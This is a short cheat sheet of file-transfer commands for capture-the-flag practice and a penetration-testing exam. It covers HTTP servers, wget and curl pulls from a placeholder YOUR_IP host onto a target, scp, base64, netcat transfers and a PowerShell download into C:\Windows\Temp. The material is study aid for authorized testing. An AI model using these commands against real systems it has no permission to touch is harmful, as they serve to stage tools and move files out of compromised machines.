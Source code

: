 # File Transfer Cheat Sheet for CTFs & HTB CPTS

## Common File Transfer Methods

### 1. Python HTTP Server (Quickest Method)
**On Your Machine:**
```bash
python3 -m http.server 8000  # Python 3
# or
python -m SimpleHTTPServer 8000  # Python 2
```

**On Target:**
```bash
wget http://YOUR_IP:8000/file.txt
# or if wget not available
curl http://YOUR_IP:8000/file.txt -o file.txt
```

### 2. SCP (When SSH Creds Available)
```bash
scp file.txt user@target:/path/to/save
# Download from target:
scp user@target:/path/file.txt .
```

### 3. Base64 Encoding (For Restricted Environments)
**Encode:**
```bash
base64 -w 0 file.bin  # Linux
# or
certutil -encode file.bin file.b64  # Windows
```

**Decode:**
```bash
echo "BASE64_STRING" | base64 -d > file.bin  # Linux
# or
certutil -decode file.b64 file.bin  # Windows
```

### 4. Netcat (Direct Transfer)
**Receiver:**
```bash
nc -lvnp 4444 > received_file
```

**Sender:**
```bash
nc -w 3 TARGET_IP 4444 < file_to_send
```

## Verification Methods

### Check File Integrity:
```bash
md5sum file  # Linux
# or
Get-FileHash -Algorithm MD5 file  # Windows PowerShell
```

### Check File Type:
```bash
file downloaded_file
```

## Alternative Methods

### PHP Server:
```bash
php -S 0.0.0.0:8000
```

### Ruby Server:
```bash
ruby -run -e httpd . -p 8000
```

### Windows (PowerShell):
```powershell
# Download file
Invoke-WebRequest -Uri "http://YOUR_IP/file.exe" -OutFile "C:\Windows\Temp\file.exe"

# Base64 encode/decode
[Convert]::ToBase64String([IO.File]::ReadAllBytes("file.exe")) > file.b64
[IO.File]::WriteAllBytes("file.exe", [Convert]::FromBase64String((Get-Content file.b64)))
```

## Pro Tips:
- Always verify transferred files with hashes
- For large files, consider compressing first (`tar -czvf archive.tar.gz folder/`)
- If firewalls block common ports, try running servers on port 80/443
- In restricted environments, split files and transfer in chunks
- Remember to clean up transferred files after use

This condensed version focuses on the most practical methods you'll need during exams and CTFs, with easy-to-remember commands for quick reference.